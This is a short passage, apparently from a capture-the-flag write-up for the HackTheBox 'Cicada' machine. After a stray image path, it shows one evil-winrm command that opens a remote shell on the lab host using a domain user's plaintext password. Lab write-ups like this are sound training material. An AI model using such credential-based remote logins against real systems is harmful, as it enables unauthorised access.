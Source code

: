 Using emily's credentials, gained foothold on the machine
```bash
evil-winrm -i 10.10.11.35 -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

